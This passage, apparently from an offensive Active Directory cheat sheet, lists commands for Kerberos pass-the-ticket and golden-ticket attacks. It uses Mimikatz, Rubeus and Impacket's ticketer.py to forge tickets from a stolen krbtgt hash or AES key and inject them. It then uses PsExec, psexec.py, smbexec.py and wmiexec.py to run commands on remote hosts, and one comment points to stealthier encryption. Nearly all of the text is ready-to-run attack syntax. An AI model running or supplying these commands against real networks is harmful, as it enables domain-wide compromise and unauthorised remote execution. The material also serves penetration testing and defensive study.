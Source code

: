 ```shell

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
